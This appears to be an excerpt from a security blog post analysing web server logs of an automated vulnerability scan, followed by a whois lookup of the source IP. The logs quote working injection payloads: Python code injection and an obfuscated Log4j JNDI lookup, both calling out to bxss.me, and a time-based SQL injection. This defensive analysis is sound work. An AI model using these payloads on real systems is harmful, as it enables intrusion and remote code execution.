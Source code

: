 What makes it obvious this is just an aggressive scan and not a targeted attack is the lack of technology identification. The attempts ranged from XSS and SQL injection to SSTI and path traversals. There were even some Log4j exploitation attempts in there.

```
[...]
52.86.221.173   2024-08-24 16:15:58     Invalid CSRF token ['+str(__import__("time").sleep(9))+__import__("socket").gethostbyname("hitjninzrcvuhec149."+"bxss.me")+'] on https://[REDACTED]/open.php
[...]
52.86.221.173   2024-09-07 21:46:06     Invalid CSRF token [(select(0)from(select(sleep(15)))v)/*'+(select(0)from(select(sleep(15)))v)+'"+(select(0)from(select(sleep(15)))v)+"*/] on https://[REDACTED]/login.php
[...]
52.86.221.173   2024-09-07 21:57:25     Invalid CSRF token [${j${::-n}di:dns${::-:}${::-/}${::-/}hitnjcedohhyn07a72${::-.}bxss.me}zzzz${url:UTF-8:http://hitivynwrnhqr.bxss.me/}] on https://[REDACTED]/open.php
[...]
```

Taking a look at the IP the requests were coming from, we can see it belongs to AWS, most probably an EC2 instance.

```
➜ whois 52.86.221.173

#
# ARIN WHOIS data and services are subject to the Terms of Use
# available at: https://www.arin.net/resources/registry/whois/tou/
#
# If you see inaccuracies in the results, please report at
# https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
#
# Copyright 1997-2024, American Registry for Internet Numbers, Ltd.
#


NetRange:       52.84.0.0 - 52.95.255.255
CIDR:           52.88.0.0/13, 52.84.0.0/14
NetName:        AT-88-Z
NetHandle:      NET-52-84-0-0-1
Parent:         NET52 (NET-52-0-0-0-0)
NetType:        Direct Allocation
OriginAS:       AS16509, AS14618
Organization:   Amazon Technologies Inc. (AT-88-Z)
RegDate:        1991-12-19
Updated:        2022-03-21
Ref:            https://rdap.arin.net/registry/ip/52.84.0.0



OrgName:        Amazon Technologies Inc.
OrgId:          AT-88-Z
Address:        410 Terry Ave N.
City:           Seattle
StateProv:      WA
PostalCode:     98109
Country:        US
RegDate:        2011-12-08
Updated:        2024-01-24
Comment:        All abuse reports MUST include:
Comment:        * src IP
Comment:        * dest IP (your IP)
Comment:        * dest port
Comment:        * Accurate date/timestamp and timezone of activity
Comment:        * Intensity/frequency (short log extracts)
```